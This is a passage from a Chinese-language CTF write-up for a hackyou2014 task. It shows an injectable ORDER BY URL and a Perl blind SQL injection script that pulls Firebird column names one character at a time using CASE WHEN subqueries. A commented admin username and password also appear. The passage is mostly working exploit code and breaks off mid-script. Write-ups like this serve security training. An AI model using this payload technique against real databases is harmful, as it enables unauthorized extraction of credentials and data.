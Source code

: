 有注入

```
http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=cost ASC 
```

其实看到 order 参数，就很容易猜测可能是 order by 语句后的注入 :)

针对这个场景，firebird 数据库，可控语句在 order by 之后，只能采取盲注：

已有人写好跑数据的 perl 脚本：

```
use LWP::Simple;
#username:password
#admin:9shS3FAk

# extract columns from USERS

$url="http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=";

$fst="case when(1=(select first 1 1 from rdb\$relation_fields where lower(RDB\$RELATION_NAME)=ascii_char(117)||ascii_char(115)||ascii_char(101)||ascii_char(114)||ascii_char(115) and lower(rdb\$field_name) LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
$b=0;

# LOGIN column part
for($j=0;$j<100;$j++){
for($i=97;$i<122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print "j: ".$j." i:".$i."\n";
        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i);
                $fst.="ascii_char(".$i.")||";

                last;
        }else{
                $b++;
        }
}
if($b==122-97){
        last;
}else{
$b=0;
}
}
print "\n";

# PASSWD column part
$fst="case when(1=(select first 1 1 from rdb\$relation_fields where lower(RDB\$RELATION_NAME)=ascii_char(117)||ascii_char(115)||ascii_char(101)||ascii_char(114)||ascii_char(115) and lower(rdb\$field_name) LIKE ";
$b=0;
for($j=0;$j<100;$j++){
for($i=97;$i<122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95 && $i!=108){
                print chr($i);
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
```